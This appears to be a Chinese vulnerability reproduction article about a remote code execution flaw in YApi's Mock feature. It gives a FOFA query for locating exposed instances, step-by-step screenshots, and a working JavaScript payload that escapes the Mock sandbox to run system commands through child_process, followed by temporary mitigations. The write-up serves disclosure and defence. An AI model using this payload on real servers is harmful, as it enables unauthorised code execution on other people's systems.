 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zobag3-fIl_0vrc8BrnRjg)

近日，网络上爆出 YApi 的远程代码执行 0day 漏洞 正被广泛利用。攻击者通过注册用户后，即可通过 Mock 功能远程执行任意代码。

漏洞描述
----

YAPI 接口管理平台是国内某旅行网站的大前端技术中心开源项目，使用 mock 数据 / 脚本作为中间交互层，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。YApi 是高效、易用、功能强大的 api 管理平台。但因为大量用户使用 YAPI 的默认配置并允许从外部网络访问 YApi 服务，导致攻击者注册用户后，即可通过 Mock 功能远程执行任意代码。

fofa 语法

```
app="YApi"
```

漏洞复现过程：  

这是主页~~~~~~~

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmAGzliakpwzzTjwH7mibGVIGvibtIL04kd0Jj4LuaQ2IiakibfEfgHMBnZkA/640?wx_fmt=png)

首先注册一个用户

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmYLEa0bJibhrc4Yr03nzczTxibeUCp6sAIpicsuLpZjMnVpoL7ldQiaZX7Q/640?wx_fmt=png)

接着新建一个项目

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmoms5TC0fx21U6mdibv9rFW4tSajvviaiaHa9d81yfibgMGQnAqP6geOucg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmx2damXJqK8xgLKAMNTr8kkg5yiaExm7Q9N77I7iaTnVibaS9XzqgyAfaw/640?wx_fmt=png)

接着返回项目首页新建一个接口~~~~~~~~

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmia091rX3EJM8xfWeLHD6Rlt4D9K4k7DtEhLoIibgOjctXTyKVKE61rBQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmBlOdeibwDDfVMPfZXVLykuOBfD365TXgawyvKp74cq44DNFYWmq4TNw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGm4ic6t97shj7xiaF0KTqmr5LbytW75ZoToPUgjvkD8qQAicav6LCTyPZCA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmlzcTRvfXDhlLqjR0ZzFJ4YkbaJ3qtqnJibJt9X8QL6sWFUuib7qaY2nA/640?wx_fmt=png)

写入 exp！！！！！  

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmjF3DE7eW4OFJIWqZxUd9VlHhHLZsWHJc9y8DaicG6bbjEzll3H10ZFQ/640?wx_fmt=png)

exp：  

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

保存后直接访问接口  

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmiaafaS53gFa5w7FCsiaBIJicO5qiaQKTFzsUdq7tenE2N3AsdfUX8ASMQw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGm4FSDnkszKXEDMiaV0HgGUe3zZviaciaeHBPaT5OygOS4UbaJxu17tABqA/640?wx_fmt=png)

修复建议
----

该漏洞暂无补丁。

临时修复建议：

1.  关闭 YAPI 用户注册功能，以阻断攻击者注册。
    
2.  利用请求白名单的方式限制 YAPI 相关端口。
    
3.  排查 YAPI 服务器是否存在恶意访问记录。
    

切勿非法用途，履行白帽职责。

![](https://mmbiz.qpic.cn/mmbiz_jpg/rFvFNYa3ibHZKxQegzv52C35pibz8kvpGmiatxb5D0fwEwaJoAZABWeZrgGzyXjAcGcDibsFSh1FkvOzicibHYFkwJqQ/640?wx_fmt=jpeg)